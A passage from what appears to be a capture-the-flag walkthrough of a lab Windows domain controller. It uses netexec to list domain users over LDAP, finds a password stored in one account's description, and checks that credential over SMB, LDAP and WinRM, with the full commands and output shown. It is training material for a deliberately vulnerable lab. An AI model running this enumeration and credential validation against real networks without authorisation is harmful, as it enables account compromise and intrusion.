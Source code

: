 #### Users

With LDAP access, now I can look for a more complete list of users with the `--users` flag in `netexec`:

```

oxdf@hacky$ netexec ldap CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.10.11.35     389    CICADA-DC        [*] Enumerated 8 domain users: cicada.htb
LDAP        10.10.11.35     389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.35     389    CICADA-DC        Administrator                 2024-08-26 20:08:03 1       Built-in account for administering the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain
LDAP        10.10.11.35     389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account
LDAP        10.10.11.35     389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1               
LDAP        10.10.11.35     389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1               
LDAP        10.10.11.35     389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0               
LDAP        10.10.11.35     389    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3
LDAP        10.10.11.35     389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1

```

This same command can be run over SMB with `netexec smb [target] -u [username] -p [pass] --users`, and it provides the same information collected from a different port.

There’s a comment on the david.orelious user: “Just in case I forget my password is aRt$Lp#7t\*VQ!3”.

### Validate Creds

The creds work for SMB and LDAP, but not WinRM:

```

oxdf@hacky$ netexec smb CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
oxdf@hacky$ netexec ldap CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.35     389    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
oxdf@hacky$ netexec winrm CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3

```
